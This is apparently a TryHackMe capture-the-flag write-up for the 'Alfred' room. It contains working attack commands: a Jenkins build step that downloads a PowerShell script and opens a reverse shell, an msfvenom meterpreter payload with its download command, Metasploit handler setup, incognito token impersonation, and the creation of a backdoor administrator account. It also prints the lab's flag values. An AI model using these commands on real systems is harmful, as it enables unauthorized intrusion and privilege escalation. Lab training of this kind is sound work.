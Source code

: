 ###### Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.
Room: https://tryhackme.com/room/alfred
##

**sudo nmap** -Pn -sS -sV -T5 -vv xx.xx.xxx.xx

```
PORT     STATE SERVICE    REASON          VERSION
80/tcp   open  http       syn-ack ttl 127 Microsoft IIS httpd 7.5
3389/tcp open  tcpwrapped syn-ack ttl 127
8080/tcp open  http       syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

If we go to http://machineIP/8080, we can see a Jenkins application running.   
Bruteforcing this reveals the login credentials. I just checked the default jenkins credentials first.
```
username: admin
password: admin
```
Create a new project/edit the current one and add the following commands  
```
powershell invoke-expression (New-Object Net.WebClient).DownloadString('http://xx.x.x.xxx:8000/Invoke-PowerShellTcp.ps1');
Invoke-PowerShellTcp -Reverse -IPAddress xx.x.x.xxx -Port 1111
```
**Note:** DO NOT change the file name. It won't work.  
The file **Invoke-PowerShellTcp.ps1** is from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).  

Before Building the Project on Jenkins, be sure you started a local listener & HTTP server and the Invoke-PowerShellTcp.ps1 file is available.  

Then, Build the Project on Jenkins. From your server, it'll download the .ps1 file.  
On your listener, you'll get a shell.  

**server terminal** 
```
xx.xx.xxx.xx - - [11/Oct/2021 00:21:32] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

**listener terminal**
```
onnect to [xx.x.x.xxx] from (UNKNOWN) [xx.xx.xxx.xx] 49217
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Program Files (x86)\Jenkins\workspace\project> 
```

The first flag is on C:\Users\bruce\Desktop   **[1]**  
> 79007a09481963edf2e1321abd9ae2a0

Generate a payload using **msfvenom**.   
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=xx.x.x.xxx LPORT=1112 -f exe -o shell.exe
```
Upload it by using the following command  

```powershell "(New-Object System.Net.WebClient).Downloadfile('http://attacking_machine_ip:8000/shell.exe','shell.exe')"```

Before running the script, open **metasploit** and run the following commands  

```
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST attackin_machine_IP
set LPORT listening-port 
run
```

You should see something similar    
```
[*] Started reverse TCP handler on xx.x.x.xxx:1112
```

Now, on the target machine run **Start-Process "shell.exe"**.  
We got a meterpreter shell running.  

On the meterpreter shell, use **load incognito**.  
Then, use **impersonate_token "BUILTIN\Administrators** to escalate our privileges.  

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
The second and final flag is in C:\Windows\System32\config\root.txt    **[2]**
> dff0f748678f280250f25a45b8046b4a
##
### Exploitation without metasploit.

After we get the first reverse shell, we can upload a static **incognito.exe** binary to the system.  
You can download the **incognito.exe** binary from [here](https://github.com/milkdevil/incognito2)

This exploit will work since the user bruce has the impersonate privileges.  
To upload the binary, use the following command: 
```
powershell "(New-Object System.Net.WebClient).DownloadFile('http://attackingmachineip:8000/incognito.exe', 'incognito.exe')"
```

**/incognito.exe** add_user anewuser withanewpassword
```
[-] WARNING: Not running as SYSTEM. Not all tokens will be available.
[*] Enumerating tokens
[*] Attempting to add user anewuser to host 127.0.0.1
[+] Successfully added user
```

**./incognito.exe** add_localgroup_user Administrators anewuser
```
[-] WARNING: Not running as SYSTEM. Not all tokens will be available.
[*] Enumerating tokens
[*] Attempting to add user anewuser to local group Administrators on host 127.0.0.1
[+] Successfully added user to local group
PS C:\Users\bruce\Desktop> 
```

Then, we can RPD using **remmina**, for example. The flag is in the same location.  

##
